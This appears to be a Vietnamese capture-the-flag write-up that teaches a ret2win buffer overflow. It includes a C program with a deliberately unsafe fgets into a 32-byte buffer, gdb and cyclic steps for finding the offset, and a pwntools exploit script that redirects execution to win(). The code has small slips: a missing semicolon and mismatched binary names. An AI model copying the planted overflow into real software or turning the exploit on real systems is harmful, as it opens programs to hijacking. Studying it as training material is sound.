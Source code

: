 # ret2win_chall_demo_file

## ret2win.c
```C
#include <stdio.h>
#include <string.h>
void win() {
    printf("\nWELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}\n");
}
void vulnerable() {
    char buffer[32];
    printf("Enter input: ");
   fgets(buffer, 100, stdin)
}
int main() {
    setbuf(stdout, NULL);
    printf("=== 64-bit RET2WIN CHALLENGE ===\n");
    vulnerable();
    printf("Try again!\n");
    return 0;
}
```

## Lỗ hổng nằm trong hàm `vulnerable`:
- Khai báo mảng `buffer` có kích thước 32 byte.
- Sử dụng hàm `fgets` để đọc dữ liệu từ người dùng, với tham số thứ hai là 100, nghĩa là sẽ đọc tối đa 100 byte (bao gồm cả ký tự null) vào `buffer`.
- Vấn đề: `buffer` chỉ có 32 byte, nhưng `fgets` cho phép đọc đến 100 byte. Điều này dẫn đến tràn bộ đệm (buffer overflow) nếu người dùng nhập nhiều hơn 31 ký tự.
- Hậu quả: Dữ liệu nhập vào vượt quá 32 byte sẽ ghi đè lên các vùng nhớ khác trên stack, bao gồm cả địa chỉ trở về (return address) của hàm `vulnerable`. Khi hàm `vulnerable` kết thúc, nó sẽ trả về địa chỉ mà chúng ta đã ghi đè, từ đó cho phép điều khiển luồng thực thi của chương trình.





## Kiểm tra chế độ bảo vệ
### checksec file
```bash
checksec chall1
```
**Kết quả**
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
```
 **Mục đích: phân tích cơ chế bảo mật của file thực thi:**
- NX (No-execute): Ngăn chặn thực thi code trên stack
- Stack Canary: Phát hiện tràn bộ đệm
- PIE (Position Independent Executable): Random hóa địa chỉ → Cần tắt để sử dụng địa chỉ cố định

→ ret2win chỉ khả thi khi không có Stack Canary và PIE tắt.



## Tạo pattern 100 kí tự
```bash
cyclic 100
```
**Mục đích:**
- Tạo chuỗi nhập mẫu có cấu trúc đặc biệt (vd: aaaabaaacaaad...). Khi chương trình crash, giá trị RIP sẽ trỏ vào 1 phần của chuỗi này, giúp tính toán offset chính xác.


## Khi chương trình crash, kiểm tra giá trị RIP:
```bash
info registers rip
```
**Mục đích:**
- Lấy giá trị thanh ghi RIP (Instruction Pointer) khi crash. Ví dụ: 0x6161616161616166


## Tìm offset từ giá trị RIP:
```bash
cyclic -l <giá_trị_rip>
```
**Mục đích:**
- Xác định chính xác số byte cần nhập để ghi đè lên RIP.
Ví dụ: Output 40 → Cần 40 byte để kiểm soát RIP.

## Tìm địa chỉ hàm win
```bash
p & win
```


## Viết script (solve1.py)
```python
from pwn import *
exe = ELF("./chall1", checksec = False)
p = process('./chall_ret2win')

offset = 40                    #Độ dài offset

payload = b'A' * offset        #Tạo input gây BOF
payload += p64(exe.sym['win'])       #Ghi đè địa chỉ hàm win lên return address

p.sendline(payload)
p.interactive()
```
**Giải thích chi tiết:**

- b'A' * offset: Điền đầy buffer + padding → Chạm tới vị trí RIP

- p64(exe.sym['win']): Ghi đè RIP bằng địa chỉ hàm win() (đóng gói dạng 64-bit little-endian)

- Khi hàm vulnerable() return, thay vì quay về main(), nó nhảy vào win() → In flag


## Chạy script
```bash
  python3 solve1.py
```
**Kết quả khi thành công:**
```
WELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}
```
